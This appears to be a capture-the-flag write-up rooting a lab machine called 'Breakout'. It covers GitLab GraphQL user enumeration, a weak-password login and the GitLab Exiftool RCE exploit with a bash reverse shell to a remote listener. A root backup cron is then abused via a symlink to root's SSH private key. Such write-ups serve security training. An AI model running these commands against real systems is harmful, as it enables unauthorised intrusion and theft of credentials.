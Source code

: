# Breakout

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.182
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 15:28 +08
Warning: 192.168.183.182 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.183.182
Host is up (0.17s latency).
Not shown: 65519 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

### Web Enum --> GraphQL

Port 80 reveals a Gitlab instance:

<figure><img src="../../../.gitbook/assets/image (32) (2).png" alt=""><figcaption></figcaption></figure>

I tried registering a user, but it wasn't allowed since the Gitlab administrator needed to approve first. I ran a `feroxbuster` scan to enumerate directories.&#x20;

```
$ feroxbuster -u http://192.168.183.182
200      GET      264l     1543w        0c http://192.168.183.182/search
200      GET      353l     2789w        0c http://192.168.183.182/help
301      GET        1l        5w       98c http://192.168.183.182/profile => http://192.168.183.182/-/profile
200      GET      363l     1838w        0c http://192.168.183.182/public
302      GET        1l        5w      105c http://192.168.183.182/snippets => http://192.168.183.182/explore/snippets
302      GET        1l        5w       96c http://192.168.183.182/projects => http://192.168.183.182/explore
401      GET        0l        0w        0c http://192.168.183.182/v2
302      GET        1l        5w      103c http://192.168.183.182/groups => http://192.168.183.182/explore/groups
200      GET      441l     2057w        0c http://192.168.183.182/webmaster
200      GET      441l     2057w        0c http://192.168.183.182/root
200      GET      363l     1838w        0c http://192.168.183.182/explore
```

There wasn't much from this though. I searched for Gitlab enumeration, hoping to get someone'e cheatsheet on how to enumerate Gitlab instances, but found this instead:

{% embed url="https://www.rapid7.com/blog/post/2022/03/03/cve-2021-4191-gitlab-graphql-api-user-enumeration-fixed/" %}

I tried their PoC of accessing Gitlab using `/-/graphql-explorer`, and it worked:

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

### GraphQL User Enum  --> User Login

The CVE above mentions that this allows us to enumerate users using this query:

```
{users{nodes{id name username}}}
```

<figure><img src="../../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

We have 2 new users, `coaran` and `michelle`. Then, we can login with `michelle:michelle`:

<figure><img src="../../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

### Gitlab RCE

Using this user, we can enumerate the version of Gitlab running:

<figure><img src="../../../.gitbook/assets/image (30) (10).png" alt=""><figcaption></figcaption></figure>

This is vulnerable to the Gitlab Exiftool RCE exploit.&#x20;

{% embed url="https://github.com/CsEnox/Gitlab-Exiftool-RCE" %}

```
$ python3 exploit.py -u michelle -p michelle -c "bash -c 'bash -i >& /dev/tcp/192.168.45.208/4444 0>&1'" -t http://192.168.183.182
[1] Authenticating
Successfully Authenticated
[2] Creating Payload 
[3] Creating Snippet and Uploading
```

<figure><img src="../../../.gitbook/assets/image (97) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### LinPEAS --> SSH Key

I ran `linpeas.sh` and it found some potential SSH keys.&#x20;

```
[+] Searching ssl/ssh files
ChallengeResponseAuthentication no                                                           
UsePAM yes
Possible private SSH keys were found!
/var/opt/gitlab/backups/mykey
/var/opt/gitlab/gitlab-rails/etc/secrets.yml
 --> /etc/hosts.allow file found, read the rules:
/etc/hosts.allow
```

We can read the file and verify that it is an SSH key:

```
git@breakout:/tmp$ cat /var/opt/gitlab/backups/mykey 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA4eDGWPfq/wKo4whXeFRr8Dq+wgoCClqpJmxRajPmCaSrULo/uPad
<TRUNCATED>
```

We know that there are 2 users on the machine, and I tested with both. Using this key, we can `ssh` in as `coaron`:

<figure><img src="../../../.gitbook/assets/image (15) (1) (8).png" alt=""><figcaption></figcaption></figure>

### Pspy --> Symlink Exploit

`linpeas.sh` didn't reveal much, so I ran a `pspy64` instead. I found some interesting processes involving zip files:

{% code overflow="wrap" %}
```
2023/07/12 07:46:01 CMD: UID=0    PID=320345 | bash /opt/backups/backup.sh 
2023/07/12 07:46:01 CMD: UID=0    PID=320346 | /usr/bin/zip -r /opt/backups/log_backup.zip /srv/gitlab/logs/alertmanager /srv/gitlab/logs/gitaly /srv/gitlab/logs/gitlab-exporter /srv/gitlab/logs/gitlab-rails /srv/gitlab/logs/gitlab-shell /srv/gitlab/logs/gitlab-workhorse /srv/gitlab/logs/grafana /srv/gitlab/logs/logrotate /srv/gitlab/logs/nginx /srv/gitlab/logs/postgres-exporter /srv/gitlab/logs/postgresql /srv/gitlab/logs/prometheus /srv/gitlab/logs/puma /srv/gitlab/logs/reconfigure /srv/gitlab/logs/redis /srv/gitlab/logs/redis-exporter /srv/gitlab/logs/sidekiq /srv/gitlab/logs/sshd

coaran@breakout:/tmp$ cat /opt/backups/backup.sh 
/usr/bin/zip -r /opt/backups/log_backup.zip /srv/gitlab/logs/*
```
{% endcode %}

Since this is being run by root, we can create a symlink here that points towards the `root` user's private SSH key. However, we cannot view the files or write to it as `coaron`, but it seems the `git` user can on the Docker container its in.

```
git@breakout:/srv$ lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
loop0    7:0    0 55.5M  1 loop 
loop1    7:1    0 55.5M  1 loop 
loop2    7:2    0 61.9M  1 loop 
loop3    7:3    0 61.9M  1 loop 
loop4    7:4    0 43.6M  1 loop 
loop5    7:5    0 67.2M  1 loop 
loop6    7:6    0 67.9M  1 loop 
sda      8:0    0   10G  0 disk 
├─sda1   8:1    0    1M  0 part 
└─sda2   8:2    0   10G  0 part /var/log/gitlab
sr0     11:0    1 1024M  0 rom

git@breakout:/var/log/gitlab$ ls -la
total 80
drwxr-xr-x 20 root              root       4096 Mar  3  2022 .
drwxr-xr-x  1 root              root       4096 Feb 23  2021 ..
drwx------  2 gitlab-prometheus root       4096 Feb 17 17:18 alertmanager
drwx------  2 git               root       4096 Jul 12 07:37 gitaly
drwx------  2 git               root       4096 Jul 12 07:28 gitlab-exporter
drwx------  2 git               root       4096 Jul 12 07:38 gitlab-rails
drwx------  2 git               root       4096 Mar  3  2022 gitlab-shell
drwx------  2 git               root       4096 Jul 12 07:28 gitlab-workhorse
drwx------  2 gitlab-prometheus root       4096 Feb 17 17:18 grafana
drwx------  2 root              root       4096 Jan 30 10:45 logrotate
drwxr-x---  2 root              gitlab-www 4096 Feb 17 00:28 nginx
drwx------  2 gitlab-psql       root       4096 Feb 17 17:18 postgres-exporter
drwx------  2 gitlab-psql       root       4096 Feb 17 17:18 postgresql
drwx------  2 gitlab-prometheus root       4096 Jul 12 07:28 prometheus
drwx------  2 git               root       4096 Feb 17 17:18 puma
drwxr-xr-x  2 root              root       4096 Feb 16 17:18 reconfigure
drwx------  2 gitlab-redis      root       4096 Jul 12 07:27 redis
drwx------  2 gitlab-redis      root       4096 Feb 17 17:18 redis-exporter
drwx------  2 git               root       4096 Jul 12 07:27 sidekiq
drwxr-xr-x  2 root              root       4096 Jan 30 10:45 sshd
```

We can then create the symlink here:

```
git@breakout:/var/log/gitlab/gitaly$ ln -s /root/.ssh/id_rsa test1
```

Afterwards, we just need to wait for a bit before the script executes and makes a new zip file in `/opt/backups`. Once it does, copy the folder elsewhere and unzip it to reveal the SSH private key of `root`:

```
coaran@breakout:/dev/shm/srv/gitlab/logs/gitaly$ cat test1
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAzAu+X5sUIUBGFen/rkbr6M09cLPZvlsrphqkjcZQ48zivybhHMIJ
<TRUNCATED>
```

We can then use this key to `ssh` in as `root`:

<figure><img src="../../../.gitbook/assets/image (26) (2).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
